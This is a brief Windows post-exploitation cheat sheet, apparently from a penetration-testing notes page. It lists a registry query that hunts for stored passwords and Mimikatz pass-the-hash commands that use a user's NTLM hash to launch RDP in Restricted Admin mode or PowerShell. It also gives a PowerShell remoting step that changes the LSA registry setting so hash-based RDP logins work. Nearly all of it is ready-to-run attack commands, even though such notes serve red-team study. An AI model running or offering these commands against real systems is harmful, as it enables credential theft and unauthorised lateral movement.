 # Windows

#### Look for password in the registry

```
reg query HKLM /f pass /t REG_SZ /s
```

### Set Path&#x20;

```
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

### Restricted Admin rdp with hash

```
sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:"mstsc.exe /restrictedadmin"
```

A [registry key](https://social.technet.microsoft.com/wiki/contents/articles/32905.remote-desktop-services-enable-restricted-admin-mode.aspx) controls if a server accepts Restricted Admin sessions. If you have the NTLM hash of a user that has privileges to set registry keys, you can use for example Powershell to enable it and log in via RDP afterwards:

```
mimikatz.exe "sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:powershell.exe"
```

A new Powershell window will pop up:

```
Enter-PSSession -Computer <Target>
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force
```

Now, your RDP should work fine.
